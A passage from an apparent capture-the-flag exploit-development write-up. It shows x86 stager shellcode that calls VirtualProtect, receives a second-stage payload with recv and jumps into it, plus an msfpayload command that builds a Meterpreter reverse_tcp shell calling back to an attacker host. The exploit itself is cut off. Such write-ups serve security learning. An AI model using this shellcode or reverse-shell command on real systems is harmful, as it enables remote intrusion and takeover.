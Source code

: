 The result of `malloc` is memory which needs to be marked as executable, and that lives in `EAX`. We'll push this value on the stack for later use, and then set up the virtual protect call:

``` txt
POP ECX, PUSH ECX     ; get a copy of the size in ECX
MOV ESI, EAX          ; save the memory handle for later use
PUSH EAX              ; push the handle onto the stack as well
MOV BX,0x3EA4         ; Set EBX up for the `virtualprotect` call
LEA EAX, [ESP-0x24]   ; Calculate somewhere sane on the stack
PUSH EAX              ; Push this value as the buffer for the old protection
PUSH 0x40             ; Mark the area as RWX
PUSH ECX              ; specify the memory size to change protection on
PUSH ESI              ; Point to the memory to protect
CALL EBX              ; Invoke `VirtualProtect`
```

The beauty of this approach is that the stack is currently set up ready to call `recv` except for the socket handle, all we need to do adjust for the function and call it. We have another issue here though because the address contains an `0C` which is a bad character. So instead we use Mona.py again to tell us a reference point for `recv` using the `iat` command. This gives us an address located at `0x004082DC`. We can use this address instead and call using `CALL [EBX]` instead.

``` txt
MOV BX,82DC           ; Set EBX up for the `recv` call, but can't use 0C because it's "bad"
PUSH EDI              ; push the socket handle
```

But wait! We can't invoke `recv` because we have run out of space, we have to make use of the last 4 bytes we have tucked away, so to do this we need to jump ahead by 5 bytes. There we can invoke the call:

``` txt
CALL [EBX]            ; Call `recv`
```

And the icing on the cake, `ESI` containers the memory pointer the payload was written to, so we just jump there and off we go!

``` txt
JMP ESI               ; Invoke the received payload
```

If we exclude the 1 blank that is placed after block2, we literally have zero bytes left to play with. Talk about cutting it fine!

## Finishing up

Now before our final run, we'll need to generate a payload that we want to execute. In my case I'm going to use a meterpreter payload:

``` txt
$ msfpayload windows/meterpreter/reverse_tcp LHOST=10.1.10.40 LPORT=8000 R > revmet8000.bin
```

I'm going to use this as the content that I sent to the server at the end of the exploit. We'll actually pass this in on the command line from here.

And so with a few more adjustments and some spit'n'polish, we have a weaponised exploit ready to go (breakpoint free!) that looks like this:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux